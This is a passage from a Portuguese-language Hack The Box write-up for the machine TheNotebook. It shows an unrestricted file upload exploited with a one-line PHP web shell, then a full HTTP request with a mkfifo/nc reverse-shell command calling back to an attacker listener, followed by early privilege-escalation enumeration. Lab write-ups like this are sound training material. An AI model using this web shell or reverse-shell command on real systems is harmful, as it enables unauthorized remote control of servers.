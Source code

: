 - Acessando a opção *File Upload* temos uma página simples para envio de arquivos, a qual vamos inspecionar as requisições a partir do Burp Suite

  ![HTB TheNotebook - File Upload](https://i.imgur.com/fgI2wmr.png){: .align-center}

  - Criando um payload PHP para webshell simples com o conte conteúdo `<?php system($_GET['cmd']);?>`, tentei realizar seu upload a partir do formulário e não tive nenhum tipo de bloqueio nesta ação.

  - Após upload, o arquivo foi listado na página e no botão *View* relacionado, o caminho onde poderia acessar o conteúdo enviado.

  ![HTB TheNotebook - Uploaded Files](https://i.imgur.com/aCdIwnN.png){: .align-center}

  - Ao copiar a URI deste arquivo, realizando chamadas simples com o queryString `cmd=id`, conforme previsto no payload criado, pude constatar que poderíamos obter um shell reverso deste modo já que obtemos execução remota de código :smiley:

  ![HTB TheNotebook - Simple WebShell](https://i.imgur.com/eSH3rQY.png){: .align-center}

  - Por fim, para obter um shell reverso em si, iniciei um listener usando o `nc` e executei a chamada abaixo, onde obtive o sucesso esperado :smile:

```http
GET /1e49f8a12603040cc99b2dd39f423b09.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.10.10+4443+>/tmp/f HTTP/1.1
Host: 10.10.10.230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: auth=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMTY6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Impkb2UiLCJlbWFpbCI6Impkb2VAZHVtbXkuY29tIiwiYWRtaW5fY2FwIjoxfQ.WMokYjjMMECoF2UWM2fcMVcR99X34dHXwuj8nXqBlQWOnwC1NdBoO6PD-ZHjAZ5p969Jbf4XnRKZedAAokxvIgG2ymYNV1F8CcDzDfuHlMlk_CiYGvimoJWgvA3S-24KDql2bRrvJgoPbKKjqJ5Ir7mWZF1USGSwsttc9Ff1qniFAWTJ8CXkTLtfR498_rY_uIJfBdvqTbi3C9fWJcnSwjCGROkEGxCYve4cf5rjFvm_D_G5-S8oWkXICYAFp5lMQ288E0qGQp04nD16H1v2YzOROolNDeqMVB2uaI060xjKEA8mv6taa095q7rEqzpzXSj21Uq2-xcZonk0LI1-yg; uuid=d3f32390-d9e4-4eb0-b1a0-788b54fd8278
Connection: close
```

## User flag

Após obter o shell reverso, iniciada enumeração da máquina com a conta `www-data`, a qual é utilizada para execução do webserver. Os seguintes itens foram listados após execução do `linpeas.sh`:

- Usuários com console e suas permissões

  - `noah:x:1000:1000:Noah:/home/noah:/bin/bash`
  - `root:x:0:0:root:/root:/bin/bash`

- Existência da pasta `/var/backups`, inclusive mencionada durante as notas obtidas anteriormente

Com este item também foi mencionado nas notas encontradas na aplicação, iniciando pela inspeção dos arquivos em `/var/backups`, notei que temos alguns arquivos aos quais não temos acesso, porém um deles me chamou a atenção, sendo o arquivo `home.tar.gz`, com acesso de leitura global, possivelmente contendo algum tipo de informação.
